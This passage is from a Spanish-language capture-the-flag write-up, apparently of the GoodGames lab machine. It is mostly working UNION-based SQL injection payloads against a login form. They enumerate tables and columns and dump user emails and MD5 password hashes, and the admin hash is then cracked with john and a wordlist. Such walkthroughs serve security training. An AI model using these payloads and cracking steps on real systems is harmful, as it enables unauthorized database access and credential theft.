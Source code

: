 ```null
<h2 class="h4">Welcome information_schema,main</h2>
```

Y las tablas

```null
email=test@test.com' union select 1,2,3,group_concat(table_name) from information_schema.tables-- -&password=rubbx
```

```null
email=test@test.com' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema="main"-- -&password=rubbx
```

```null
email=test@test.com' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema="main" and table_name="user"-- -&password=rubbx
```

```null
<h2 class="h4">Welcome email,id,name,password</h2>
```

Dumpeo los hashes

```null
email=test@test.com' union select 1,2,3,group_concat(email,":",password) from main.user-- -&password=rubbx
```

```null
<h2 class="h4">Welcome admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec,rubbx@rubbx.com:f6ad19fffa579c959ced6ba4aa870d7f</h2>
```

La crackeo con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
superadministrator (admin@goodgames.htb)     
1g 0:00:00:00 DONE (2023-03-21 09:50) 6.666g/s 23175Kp/s 23175Kc/s 23175KC/s superare1000..super5b
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Puedo iniciar sesión en ```http://internal-administration.goodgames.htb/index```
